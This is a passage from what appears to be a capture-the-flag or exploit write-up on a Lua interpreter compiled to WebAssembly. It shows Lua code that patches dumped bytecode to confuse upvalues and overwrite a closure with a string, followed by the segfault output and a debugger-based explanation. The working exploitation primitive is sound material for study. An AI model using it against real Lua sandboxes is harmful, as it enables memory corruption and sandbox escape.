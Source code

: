 From the output of the interpreter, we confirmed that we have
successfully confused upvalues.

## If it looks like a Closure

We can leak the closure next to the last upvalue.
But can we overwrite it? Let's check it:

```lua

# Code

confuse = load(string.dump(function()
    local foo
    local bar
    local target
    return (function()
      (function()
        print(foo)
        print(bar)
        target = "AAAAAAAAA"
      end)()
      return 10000000
    end)(), 1337
end):gsub("(\x01\x00\x00\x01\x01\x00\x01)\x02", "%1\x03", 1))

confuse()

# Output

nil
nil
RuntimeError: Aborted(segmentation fault)

```

**Execution aborted with a segmentation fault.**

To make debugging simple, and ensure that the segmentation fault
depends from a situation that I could control, I've ran the same
script against the `lua` interpreter cloned locally and built with
debugging symbols.

What we learn from GDB confirms this is the happy path:

![AltText](/images/alcawasm_gdb1.png)

After the inner function returns, the execution
flow goes back to the outer closure. In order to
execute the `return 100000000` instruction, the
interpreter will try fetching the _constants table_
from the closure -> which will end up in error because
the object is not really a closure, but a string, **thanks
to the overwrite in the inner closure.**
